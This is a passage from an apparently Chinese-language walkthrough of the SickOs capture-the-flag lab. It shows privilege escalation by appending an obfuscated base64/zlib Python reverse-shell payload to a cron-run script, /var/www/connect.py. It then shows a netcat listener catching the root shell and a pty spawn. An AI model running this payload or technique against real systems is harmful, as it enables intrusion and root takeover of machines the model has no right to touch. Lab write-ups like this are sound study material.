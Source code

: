     因为crontab执行的是python文件，所以不用exec再套一遍python，所以到的就有
    
    ```php
    exec(__import__('zlib').decompress(__import__('base64').b64decode(__import__('codecs').getencoder('utf-8')('eNqFkM0KwjAQhF8l5JSARJNSf5AcilQQUcH2XmyMtFib0E3fX0Paeuxehtn9dge2/ljTOQRGvbVDCC0Qgr60nVEaIHjz0z3yVRlwEvOdYHy9ZZuY8YjjcejvSC6ieGyADFdZEDK45Ficrmk+ZIVedjuciyy/p8mFTutMmbbVyhHicwPvQ+iEGGDP3goC7FU3ujWEBmo1S/BZQkyElf+PMPVoGoKXZd0uocL0C7l5Vrk=')[0])))
    ```
    
4. 把payload重定向到`connect.py` (`connect.py` 其实就是渗透阶段发现的`/connect` 目录里的内容)
    
    ```php
    echo "exec(__import__('zlib').decompress(__import__('base64').b64decode(__import__('codecs').getencoder('utf-8')('eNqFkM0KwjAQhF8l5JSARJNSf5AcilQQUcH2XmyMtFib0E3fX0Paeuxehtn9dge2/ljTOQRGvbVDCC0Qgr60nVEaIHjz0z3yVRlwEvOdYHy9ZZuY8YjjcejvSC6ieGyADFdZEDK45Ficrmk+ZIVedjuciyy/p8mFTutMmbbVyhHicwPvQ+iEGGDP3goC7FU3ujWEBmo1S/BZQkyElf+PMPVoGoKXZd0uocL0C7l5Vrk=')[0])))" >> /var/www/connect.py
    ```
    
5. kali开启监听，等待代码执行
    
    获得`root`权限成功
    
    ```php
    nc -lvp 1235                                    
    listening on [any] 1235 ...
    //
    192.168.75.136: inverse host lookup failed: Unknown host
    connect to [192.168.75.131] from (UNKNOWN) [192.168.75.136] 51066
    
    python -c "import pty;pty.spawn('/bin/bash')"
    root@SickOs:~# 
    
    ```